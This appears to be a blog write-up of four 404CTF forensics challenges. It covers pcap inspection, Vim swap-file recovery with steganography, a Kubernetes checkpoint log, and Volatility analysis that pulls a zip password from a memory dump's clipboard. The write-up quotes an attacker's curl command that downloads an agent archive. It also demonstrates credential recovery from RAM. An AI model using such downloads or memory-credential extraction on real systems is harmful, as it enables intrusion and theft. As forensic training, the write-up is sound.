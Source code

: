 ```yaml
---
layout: "@layouts/blog/Layout.astro"
title: "404CTF Writeup - Forensics"
description: "404CTF - Forensics Category: The science of investigating and analyzing evidence"
author: "Majed Abdennadher"
timestamp: 1690703491953
duration: 10
tag: "404CTF"
slug: "forensics"
language: "english"
image: "/static/media/404ctf/event_logo.png"
keywords:
  ["Cybersecurity", "404CTF", "Cryptography"]
links: ["reverse", "binary", "web"]
---
```


### Pêche au livre

Quite an classic challenge. Just open the pcap capture with wireshark. We immediately see an unencrypted HTTP exchange.
Textually, the string `404CTF{...` is not present, so we need to look at the non-textual content: the images:

![](/static/media/404ctf/peche-au-livre-1.png)

The flag is: `404CTF{35SY_W1r35h4rk}`

### Le Mystère du roman d’amour

In this challenge, we are handed Vim swap file `fichier-etrange.swp` and to solve the challenge with must find:
- the PID of the crashed process
- the full path to the file in question (spaces allowed): both the exact form found in the challenge and the extended form beginning with / validate the challenge
- the name of Rouletabille's (a character) friend
- the name of the machine
- the **TEXT** content of the draft of his book (if you have something other than text, keep searching: you need to find text content that clearly resembles the beginning of a novel). Once this content has been found, it will be clearly indicated which part to use to submit the flag (it will be a leet string).

We can use the `file` command to inspect the file given to use and we already find a lot of informations:

```bash
file fichier-etrange.swp
# fichier-etrange.swp: Vim swap file, version 7.4, pid 168, user jaqueline, host aime_ecrire, file ~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt
```

Then we can actually recover the file by opening it in vim using `vim -r fichier-etrange.swp`. We notice that the content is really an image, as revealed by the header `\x89PNG\r\n\x1A\n`.
We then recover it by typing `:w restored.png` in vim.

Here is the image we find:
![](/static/media/404ctf/mystere-du-roman-d-amour-1.png)

We can then use `stegsolve` (*instructions in another blog post [here](/blog/404ctfs/stegano/#l%C5%93uvre)*). 
In `stegsolve` we can walk through the different color channels until we stumble upon something interesting: QR code.

![](/static/media/404ctf/mystere-du-roman-d-amour-2.png)

I scanned this image with my phone and I got the following text:

```
Il était une fois, dans un village rempli d'amour, deux amoureux qui s'aimaient...

Bien joué ! Notre écrivaine va pouvoir reprendre son chef-d'oeuvre grâce à vous !
Voici ce que vous devez rentrer dans la partie "contenu du fichier" du flag : 3n_V01L4_Un_Dr0l3_D3_R0m4N
```

Concatenating all of this information, we find the flag: <span class="break-words">`404CTF{168-~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt-jaqueline-aime_ecrire-3n_V01L4_Un_Dr0l3_D3_R0m4N}`</span>

### Les Mystères du cluster de la Comtesse de Ségur

A checkpoint-bash_default-bash-2023-05-06T090421Z.zip file is provided.

At first I tried if I can get the flag for free with it:

```bash
grep -ir 404CTF checkpoint-bash_default-bash-2023-05-12T09:04:21Z
```
No chance.

Let's look at the files manually. A rather interesting file `io.kubernetes.cri-o`. In particular `io.kubernetes.cri-o.LogPath` logs everything that has been executed by the container in the Kubernetes cluster.

```bash
cat checkpoint-bash_default-bash-2023-05-12T09:04:21Z/io.kubernetes.cri-o.LogPath
```

On this file, we can see that a user has become root. Close inspection of this file shows that the attacker is executing:

```bash
....  
curl agent.challenges.404ctf.fr -o agent.zip
unzip agent.zip
....
```

Doing the same as they did, when we unzip the `agent.zip` archive, we find a file containing the flag: <span class="break-words">`404CTF{K8S_checkpoints_utile_pour_le_forensic}`</span>.

### Lettres volatiles

In this challenge, we are given an archive file `C311M1N1.zip` containing the home directory of a user on a machine. Let's start by unzipping the file and searching for clues
in various directories such as Images, Downloads, and Documents.

Soon enough, we come across the file `s3cr37.zip` in the `/Documents/perso` folder, which requires a password (this ZIP file contains a suspicious PDF).
Cracking passwords can be time-consuming, so let's explore a more efficient method. While walking through the file system, I found a mysterious file named `C311M1N1-PC-20230514-200525.raw`.
It could be anything but given the challenge's name, there's a chance that it could be a RAM (volatile memory) dump. A widely used tool for analyzing such dumps is [`volatility`](https://github.com/volatilityfoundation/volatility/wiki/Installation).


*[This](https://cyberarms.wordpress.com/2011/11/04/memory-forensics-how-to-pull-passwords-from-a-memory-dump/) is one of the first articles I read about using the tool and also happens to be a good Introduction.*

```bash
# Retrieve some information on the RAM dump
vol.py -f C311M1N1-PC-20230514-200525.raw imageinfo
```

The password could be anywhere, and I spent some time looking in different places until I found it: in the clipboard.

```bash
# Dump the clipboard
vol.py -f C311M1N1-PC-20230514-200525.raw --profile Win7SP1 clipboard
# ... Z1p p4s5wOrd : F3eMoBon8n3GD5xQ ...
```

We can now unzip the secrets archive:

```bash
unzip -P F3eMoBon8n3GD5xQ s3cr37.zip
```

Inside, we find this letter:
![](/static/media/404ctf/lettres-volatiles-1.png)

And at the bottom of it, we discover the flag: <span class="break-words">`404CTF{V0147i1I7y_W1Ll_N3v3r_Wr8_loV3_l3ttEr5}`</span>